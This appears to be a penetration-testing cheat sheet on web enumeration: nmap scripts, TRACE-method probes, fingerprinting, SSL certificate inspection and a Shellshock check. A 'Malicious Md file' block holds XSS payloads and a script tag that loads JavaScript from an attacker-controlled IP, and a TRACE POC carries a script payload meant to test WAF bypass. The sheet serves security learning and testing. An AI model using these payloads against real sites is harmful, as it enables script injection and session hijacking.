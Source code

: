 ```yaml
---
icon: arrows-to-eye
---
```


# Web Enumeration

<details>

<summary><mark style="color:red;"><strong><code>Check-List</code></strong></mark></summary>

* [ ] <mark style="color:purple;">Check</mark> <mark style="color:orange;">**`robots.txt`**</mark>
* [ ] <mark style="color:purple;">Check</mark> <mark style="color:orange;">**`.git`**</mark>
* [ ] <mark style="color:purple;">Use</mark> <mark style="color:orange;">**`TRACE`**</mark> <mark style="color:purple;">method</mark>
* [ ] <mark style="color:purple;">Force error messages</mark>

</details>

<details>

<summary><mark style="color:orange;"><strong><code>Nmap</code></strong></mark> <mark style="color:purple;"><strong>Scripts</strong></mark></summary>

{% code title="Scan for config files" overflow="wrap" %}
```sh
nmap -n -p<PORT> --script http-config-backup <IP>
```
{% endcode %}

{% code title="Site map generator" overflow="wrap" %}
```sh
nmap -Pn -script=http-sitemap-generator scanme.nmap.org
```
{% endcode %}

{% code title="Stealthy Scan" overflow="wrap" %}
```sh
nmap -n -Pn -vv -O -sV --script=http-enum,http-headers,http-methods,http-title,http-vuln* 192.168.1.1
```
{% endcode %}

{% code title="fast scan" overflow="wrap" %}
```sh
nmap -n -Pn -p 80 -open -sV -vvv -script banner,http-title -iR 1000
```
{% endcode %}

</details>

<details>

<summary><mark style="color:purple;"><strong><code>Forms</code></strong></mark></summary>



</details>

<details>

<summary><mark style="color:orange;"><strong><code>Markdown</code></strong></mark></summary>

* <mark style="color:purple;">Test for</mark> <mark style="color:orange;">**`XSS`**</mark> <mark style="color:purple;">,</mark> <mark style="color:orange;">**`HTML`**</mark> <mark style="color:purple;">injection and</mark> <mark style="color:orange;">**`JavaScript`**</mark> <mark style="color:purple;">execution:</mark>

{% code title="Malicious Md file" overflow="wrap" %}
```javascript
### local XSS
<img src=x onerror=alert(1) />

### load image
<img src="http://10.10.14.162:8000/image.png" />

### load script
<script src="http://10.10.14.162:8000/script.js"></script>

### Md
<img src='http://10.10.14.162:8000/test.md' />
```
{% endcode %}

</details>

<details>

<summary><mark style="color:orange;"><strong><code>TRACE</code></strong></mark> <mark style="color:purple;">Method</mark></summary>

{% hint style="info" %}


#### <mark style="color:red;">**`Checking for Cross-Site Tracing (XST) – Bypassing HttpOnly Cookies`**</mark>

* <mark style="color:purple;">If</mark> <mark style="color:orange;">**`TRACE`**</mark> <mark style="color:purple;">is enabled and the response reflects cookies, an attacker can bypass the</mark> <mark style="color:orange;">**`HttpOnly`**</mark> <mark style="color:purple;">flag</mark>.
* <mark style="color:purple;">Normally,</mark> <mark style="color:orange;">**`HttpOnly`**</mark>**&#x20;**<mark style="color:purple;">**prevents JavaScript from accessing cookies, but**</mark>**&#x20;**<mark style="color:orange;">**`TRACE`**</mark>**&#x20;**<mark style="color:purple;">**can leak them if not properly restricted.**</mark>

{% code title="POC" overflow="wrap" %}
```sh
curl -X TRACE https://target.com -H "Test: XST"
```
{% endcode %}

* <mark style="color:purple;">If the response includes the custom header,</mark> <mark style="color:orange;">**`TRACE`**</mark>**&#x20;**<mark style="color:purple;">**is enabled**</mark><mark style="color:purple;">.</mark>
* <mark style="color:purple;">If it leaks</mark> <mark style="color:orange;">**`Set-Cookie`**</mark> <mark style="color:purple;">headers, it’s</mark> <mark style="color:purple;"></mark><mark style="color:purple;">**a serious security issue**</mark><mark style="color:purple;">.</mark>
* <mark style="color:orange;">**`Bug Bounty Impact`**</mark><mark style="color:purple;">**:**</mark> [<kbd><mark style="color:red;">**Session Hijacking**<mark style="color:red;"></kbd>](main-techniques/session-hijacking.md)&#x20;
{% endhint %}

***

{% hint style="info" %}


#### <mark style="color:red;">**`Finding Internal Headers & Debug Info`**</mark>

<mark style="color:purple;">Some servers return</mark> <mark style="color:purple;"></mark><mark style="color:purple;">**sensitive internal headers**</mark> <mark style="color:purple;"></mark><mark style="color:purple;">when</mark> <mark style="color:orange;">**`TRACE`**</mark> <mark style="color:purple;">is enabled, such as:</mark>

* <mark style="color:orange;">**`X-Forwarded-For`**</mark> <mark style="color:purple;">--> Real client IP leak.</mark>
* <mark style="color:orange;">**`X-Backend-Server`**</mark> <mark style="color:purple;">--> Internal server exposure.</mark>
* <mark style="color:orange;">**`Via`**</mark> <mark style="color:purple;">--> Reveals proxy setup.</mark>

{% code title="POC" overflow="wrap" %}
```sh
curl -X TRACE https://target.com
```
{% endcode %}

* <mark style="color:purple;">Look for unusual headers in the response.</mark>
* <mark style="color:orange;">**`Bug Bounty Impact`**</mark><mark style="color:purple;">**:**</mark> <mark style="color:red;">**`Information Disclosure`**</mark>
{% endhint %}

***

{% hint style="info" %}


#### <mark style="color:red;">**`Finding WAF / Security Device Bypasses`**</mark>

* <mark style="color:purple;">Some</mark> <mark style="color:orange;">**`WAFs`**</mark>**&#x20;**<mark style="color:purple;">**don’t inspect**</mark>**&#x20;**<mark style="color:orange;">**`TRACE`**</mark>**&#x20;**<mark style="color:purple;">**requests**</mark> <mark style="color:purple;"></mark><mark style="color:purple;">properly.</mark>
* <mark style="color:purple;">You can use</mark> <mark style="color:orange;">**`TRACE`**</mark> <mark style="color:purple;">to test</mark> <mark style="color:purple;"></mark><mark style="color:purple;">**whether**</mark>**&#x20;**<mark style="color:orange;">**`WAF`**</mark>**&#x20;**<mark style="color:purple;">**protections apply to certain endpoints**</mark><mark style="color:purple;">.</mark>

{% code title="POC" overflow="wrap" %}
```sh
curl -X TRACE https://target.com/index.php --data "payload=<script>alert(1)</script>"
```
{% endcode %}

<mark style="color:purple;">If</mark> <mark style="color:orange;">**`TRACE`**</mark> <mark style="color:purple;">reflects the payload, but normal requests are blocked, the</mark> <mark style="color:orange;">**`WAF`**</mark> <mark style="color:purple;">**is bypassable**</mark><mark style="color:purple;">.</mark>
{% endhint %}

***

{% hint style="info" %}


#### <mark style="color:red;">**`Checking for Cross-Origin Attacks`**</mark>

* <mark style="color:purple;">If</mark> <mark style="color:orange;">**`TRACE`**</mark> <mark style="color:purple;">is enabled, it might allow</mark> <mark style="color:red;">**`same-origin policy (SOP)`**</mark>**&#x20;**<mark style="color:purple;">**bypasses**</mark><mark style="color:purple;">.</mark>
* <mark style="color:purple;">Some older browsers or misconfigured</mark> <mark style="color:orange;">**`CORS`**</mark> <mark style="color:purple;">setups can be exploited if</mark> <mark style="color:orange;">**`TRACE`**</mark> <mark style="color:purple;">echoes requests cross-origin.</mark>
{% endhint %}

</details>

<details>

<summary><mark style="color:purple;"><strong>Browser</strong></mark> <mark style="color:purple;"><strong>DevTools</strong></mark></summary>



{% hint style="info" %}
###

{% code title="Show devtools" %}
```
[CTRL+SHIFT+I] or [F12]
```
{% endcode %}

{% code title="Show Network tab" %}
```
[CTRL+SHIFT+E]
```
{% endcode %}

{% code title="Show Console tab" %}
```
[CTRL+SHIFT+K]
```
{% endcode %}
{% endhint %}

</details>

<details>

<summary><mark style="color:purple;"><strong>Bypass</strong></mark><strong> </strong><mark style="color:orange;"><strong><code>User-Agent</code></strong></mark><strong> </strong><mark style="color:purple;"><strong>filtering</strong></mark></summary>

* <mark style="color:purple;">Use</mark> [<mark style="color:orange;">**`HTTPBin`**</mark>](https://httpbin.io/user-agent) <mark style="color:purple;">to check the</mark> <mark style="color:orange;">**`User-Agent`**</mark> <mark style="color:purple;">from any client.</mark>

- <mark style="color:purple;">Experiment with those</mark> <mark style="color:orange;">**`User-Agent`**</mark><mark style="color:purple;">**:**</mark>&#x20;

{% code overflow="wrap" lineNumbers="true" %}
```
Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:124.0) Gecko/20100101 Firefox/124.0
Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36 Edg/123.0.2420.81
Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36 OPR/109.0.0.0
Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
Mozilla/5.0 (Macintosh; Intel Mac OS X 14.4; rv:124.0) Gecko/20100101 Firefox/124.0
Mozilla/5.0 (Macintosh; Intel Mac OS X 14_4_1) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/17.4.1 Safari/605.1.15
Mozilla/5.0 (Macintosh; Intel Mac OS X 14_4_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36 OPR/109.0.0.0
Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
Mozilla/5.0 (X11; Linux i686; rv:124.0) Gecko/20100101 Firefox/124.0
```
{% endcode %}

</details>

<details>

<summary><mark style="color:purple;"><strong>Website Fingerprinting</strong></mark></summary>

* <mark style="color:purple;">Use</mark> [<mark style="color:orange;">**`Wappalyzer`**</mark>](https://www.wappalyzer.com/)

- <mark style="color:purple;">Or in the command line:</mark>

```bash
whatweb -v 10.10.10.121
```

{% code title="Website banners" %}
```sh
curl -IL https://www.inlanefreight.com
```
{% endcode %}

</details>

<details>

<summary><mark style="color:orange;"><strong><code>SSL</code></strong></mark> <mark style="color:purple;"><strong>Certificates</strong></mark></summary>

* <mark style="color:purple;">Use</mark> <mark style="color:orange;">**`openssl`**</mark> <mark style="color:purple;">to get the certificate's info:</mark>

{% code overflow="wrap" %}
```sh
echo | openssl s_client -showcerts -servername 10.10.10.124 -connect 10.10.10.124:443 2>/dev/null | openssl x509 -inform pem -noout -text
```
{% endcode %}

{% code title="Grep for subdomains" overflow="wrap" %}
```sh
echo | openssl s_client -showcerts -servername 10.10.10.124 -connect 10.10.10.124:443 2>/dev/null | openssl x509 -inform pem -noout -text | grep DNS | tr "," "\n" | cut -d: -f2
```
{% endcode %}

* <mark style="color:purple;">Create a custom wordlist with the subdomains to fuzz for response codes and gain a general idea of the content:</mark>

```sh
 ffuf -c -w domains -u https://FUZZ
```

* <mark style="color:purple;">When working with</mark> <mark style="color:orange;">**`HTTPS`**</mark> <mark style="color:purple;">is good practice to</mark> <mark style="color:purple;">validate the</mark> <mark style="color:orange;">**`SSL/TLS`**</mark> <mark style="color:purple;">version and ciphers in use:</mark>

{% code overflow="wrap" %}
```sh
openssl s_client -connect 10.10.10.124:443 -servername 10.10.10.124 -showcerts
```
{% endcode %}

* <mark style="color:purple;">You can follow up with the</mark> <mark style="color:orange;">**`-cipher`**</mark> <mark style="color:purple;">flag to specify the cipher suites you're interested in:</mark>

{% code overflow="wrap" %}
```sh
openssl s_client -connect 10.10.10.124:443 -servername 10.10.10.124 -cipher ECDHE-RSA-AES256-GCM-SHA384
```
{% endcode %}

* <mark style="color:purple;">Check if the server implements</mark> <mark style="color:orange;">**`HSTS`**</mark> <mark style="color:purple;">by looking for it's header</mark><mark style="color:purple;">**:**</mark>

```sh
curl -I https://10.10.10.124
```

</details>

<details>

<summary><mark style="color:purple;"><strong>Create Word-lists</strong></mark></summary>

{% code title="Use crunch" overflow="wrap" %}
```sh
crunch <min_length> <max_length> -t <pattern> -o <output_file>
```
{% endcode %}

</details>

<details>

<summary><mark style="color:orange;"><strong><code>CGI</code></strong></mark> <mark style="color:purple;">Scripts</mark></summary>

{% code title="Shellshock Vulnerability Check" overflow="wrap" %}
```sh
sudo nmap --script http-shellshock --script-args uri=<URL_ARCHIVO_SH> -p80 <IP>
```
{% endcode %}

</details>

